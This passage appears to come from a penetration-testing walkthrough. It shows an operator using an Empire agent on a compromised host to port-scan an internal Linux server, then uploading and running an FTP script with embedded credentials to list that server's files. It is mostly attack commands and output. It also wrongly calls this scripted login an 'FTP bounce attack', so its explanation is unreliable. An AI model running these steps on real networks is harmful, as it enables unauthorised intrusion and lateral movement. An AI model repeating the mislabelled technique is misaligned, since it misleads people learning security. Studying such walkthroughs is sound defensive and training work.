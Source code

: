 We perform a quick port scan on this new machine to determine the most suitable entry point:

```
(Empire: SalesFTP) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Hosts 10.30.30.41
(Empire: portscan) > set TopPorts 1000
(Empire: portscan) > run
```

The results reveal:

```
Job started: Debug32_70b72
Hostname: 10.30.30.41
OpenPorts: 21, 22, 80, 111
```

Ports 21 (FTP), 22 (SSH), 80 (HTTP), and 111 (portmap) are open. The absence of SMB and RPC ports suggests this is likely a Linux system. With FTP being the only accessible service, further exploration will focus on it.

Since we lack an interactive session on the SL0210 server, we upload a simple FTP script to it. This script is saved as /root/simple_ftp.txt and is designed to connect to the FTP server at 10.30.30.41, list the files in the current directory, and then disconnect:

```
Open 10.30.30.41
FTPSRV
PASS01
dir
quit
```

Note: When transferring files between Unix and Windows systems, it’s crucial to ensure proper line endings. Use the unix2dos command to convert Unix line feeds (0x0A) to Windows-style line feeds with carriage returns (0x0D). For example:

```
unix2dos /path/to/file.txt
```

Now, let’s proceed with our script. We upload it to the SL0210 server and execute it:

```
(Empire: SalesFTP) > upload /root/simple_ftp.txt
C:\Users\sysback\AppData\Local\simple_ftp.txt
(Empire: SalesFTP) > shell cd C:\Users\sysback\AppData\Local\
(Empire: SalesFTP) > shell ftp -s:simple_ftp.txt > result.txt
(Empire: SalesFTP) > shell type result.txt
```

Here we use the FTP script to perform an FTP bounce attack, where we redirect the output of the FTP command into a file (result.txt). This approach allows us to capture the directory listing from the remote FTP server. By examining the result.txt file, we can gain insights into the files and directories available on the FTP server. Output redirection (> result.txt) captures the result of the FTP command into a file for later review.

The script is uploaded and executed using ftp -s:simple_ftp.txt, which runs the FTP commands specified in the script.
